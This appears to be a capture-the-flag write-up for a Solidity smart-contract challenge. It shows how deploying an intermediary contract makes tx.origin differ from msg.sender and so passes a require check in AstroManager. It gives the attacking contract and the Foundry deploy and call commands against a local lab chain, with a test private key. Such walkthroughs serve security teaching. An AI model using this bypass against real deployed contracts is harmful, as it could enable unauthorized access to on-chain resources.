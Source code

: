 # Spacecraft Origins Write-up
## TL;DR
To solve this challenge `tx.origin` must be different than `msg.sender`. `tx.origin` is a global variable in Solidity that returns the address of the original externally owned account that initiated the transaction, and `msg.sender` returns the address that directly called the function.
So in order to solve the challenge, we need to call `allocateResources()` function using another smart contract (let's call it `SpaceCraft`), that way `msg.sender` will point to the `SpaceCraft` address, and `tx.origin` will point to our EOA that we deployed the `SpaceCraft` with, and the check in the `require` statement will be bypassed.
## Solving the challenge
- We first get our target contract address:
```bash
$cast call 0x06B3AB539140e970b36df7ff9965d4d573D24D78 "TARGET()" --rpc-url http://localhost:8545/06f7b1d3-a903-4427-8193-eec13c17d5fa
0x0000000000000000000000007b1bbf201603eb7bf1b0ee2053449ead3b5033b1
```
Target address is 0x7b1bbf201603eb7bf1b0ee2053449ead3b5033b1
- We make our solution directory:
```
$mkdir solution && cd solution/
$forge init . --no-git
```
- We write the contract that we want to interact with `AstroManager` and put it under `solution/src`.
### SpaceCraft.sol:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {AstroManager} from "./AstroManager.sol";

contract SpaceCraft {
    AstroManager public astroManager;

    constructor(address _astroManager) {
        astroManager = AstroManager(_astroManager);
    }

    function callAllocateResources() external {
        astroManager.allocateResources();
    }
}
```
- We deploy the SpaceCraft contract using the following command:
```bash
└──╼ $forge create src/SpaceCraft.sol:SpaceCraft --private-key 0xbe6c2a2548bc47c891d3d7dea09d29591e82756629f0fc61e293274408d9b013 --rpc-url http://localhost:8545/06f7b1d3-a903-4427-8193-eec13c17d5fa --constructor-args 0x7b1bbf201603eb7bf1b0ee2053449ead3b5033b1
[⠒] Compiling...
[⠒] Compiling 26 files with 0.8.21
[⠰] Solc 0.8.21 finished in 3.93s
Compiler run successful!
Deployer: 0xFe12Fb4FF7430c46D45391dCccd6e54f643EDD6A
Deployed to: 0xb8c74C67824A9cDDc653935F076820D11Bf3F24B
Transaction hash: 0x02daac7a07a0216ff3e424f42dc957f7e7463ae462bc4c133fb67319146ec5b6
```
Now we can call `callAllocateResources()` from the `SpaceCraft()` contract to solve the challenge.
```bash
$cast send 0xb8c74C67824A9cDDc653935F076820D11Bf3F24B "callAllocateResources()" --private-key 0xbe6c2a2548bc47c891d3d7dea09d29591e82756629f0fc61e293274408d9b013 --rpc-url http://localhost:8545/06f7b1d3-a903-4427-8193-eec13c17d5fa
```
We're ready to get the flag.
## Flag
`shellmates{he4v3NLy_0RiG1n4Ted_Tr4N$4ct1On}`
